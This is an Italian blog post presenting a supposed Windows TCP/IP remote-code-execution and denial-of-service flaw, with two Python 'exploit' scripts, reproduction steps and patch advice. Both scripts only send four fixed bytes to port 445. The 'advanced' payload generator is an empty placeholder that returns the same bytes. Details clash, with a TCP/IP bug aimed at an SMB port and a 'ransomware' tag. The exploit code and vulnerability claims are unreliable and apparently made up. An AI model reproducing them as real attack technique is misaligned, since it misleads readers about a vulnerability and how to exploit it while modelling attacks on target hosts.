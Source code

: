 ```yaml
---
layout: post
title: [dos] Windows TCP/IP - RCE Checker and Denial of Service 
date: 2024-08-28
categories: [security, ransomware]
---
```


# [dos] Windows TCP/IP - RCE Checker and Denial of Service

## Introduzione

Il 28 Agosto 2024, è stata identificata una vulnerabilità critica nel protocollo TCP/IP di Windows, che permette sia un attacco di tipo Denial of Service (DoS), sia un Remote Code Execution (RCE). Questa vulnerabilità ha implicazioni significative per la sicurezza, in quanto potrebbe consentire a un attaccante remoto di causare un'interruzione del servizio o, addirittura, eseguire codice arbitrario sul sistema vulnerabile.

## Dettagli della Vulnerabilità

Questa vulnerabilità risiede nel modo in cui il protocollo TCP/IP di Windows gestisce le richieste di connessione. Un attaccante può inviare un pacchetto di rete malformato a un sistema vulnerabile per innescare un DoS o un RCE. Sono interessate tutte le versioni di Windows che non hanno ricevuto l'ultimo aggiornamento di sicurezza.

## Esempio di Payload Semplice

```python
{{% raw %}}
import socket

def exploit(ip):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, 445))
    sock.send(b'\x00\x00\x00\x90') # payload malformato
    sock.close()

exploit('192.168.1.1')
{{% endraw %}}
```

## Esempio di Payload Avanzato

```python
{{% raw %}}
import socket
import sys

def exploit(ip, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, 445))
    sock.send(payload)
    print(f"Payload inviato a {ip}")
    sock.close()

def generate_payload():
    # generazione di un payload molto più complesso
    # che potrebbe essere utilizzato per l'attacco RCE
    return b'\x00\x00\x00\x90' 

def main():
    if len(sys.argv) != 2:
        print(f"Utilizzo: {sys.argv[0]} <target-ip>")
        return

    ip = sys.argv[1]
    payload = generate_payload()
    exploit(ip, payload)

if __name__ == "__main__":
    main()
{{% endraw %}}
```

## Procedura per riprodurre la vulnerabilità

Per riprodurre la vulnerabilità, si può seguire la procedura:

1. Eseguire l'exploit sul sistema bersaglio.
2. Il sistema bersaglio riceverà il payload malformato.
3. Se il sistema bersaglio è vulnerabile, l'attaccante riuscirà a eseguire codice arbitrario o a causare un'interruzione del servizio.

## Impatto della vulnerabilità

Questa vulnerabilità può causare un'interruzione del servizio rendendo i sistemi inaccessibili, o può permettere a un attaccante di eseguire codice arbitrario sul sistema bersaglio. Ciò potrebbe portare alla perdita di dati, al furto di informazioni sensibili o al controllo non autorizzato del sistema.

## Patch e Mitigazioni

Microsoft ha rilasciato un aggiornamento di sicurezza per risolvere questa vulnerabilità. È altamente consigliato aggiornare i sistemi al più presto. Fino all'installazione dell'aggiornamento, una possibile mitigazione potrebbe essere quella di limitare l'accesso alla porta 445 ai soli IP fidati.

## Conclusione

La protezione dei sistemi informatici è di fondamentale importanza. Questa vulnerabilità mette in evidenza l'importanza di mantenere i sistemi aggiornati e di monitorare costantemente la rete per rilevare possibili attività sospette. È fondamentale installare l'ultimo aggiornamento di sicurezza rilasciato da Microsoft per mitigare questa vulnerabilità.

## Considerazioni

Nonostante siano stati rilevati molti attacchi che sfruttano vulnerabilità note, gli attacchi che sfruttano zero-day (vulnerabilità sconosciute al produttore al momento dell'attacco) sono sempre una minaccia. L'importanza di un approccio proattivo alla sicurezza, che include patching tempestivo, riduzione dell'attacco superficiale, e buone pratiche di sicurezza, non può essere sottolineata abbastanza.

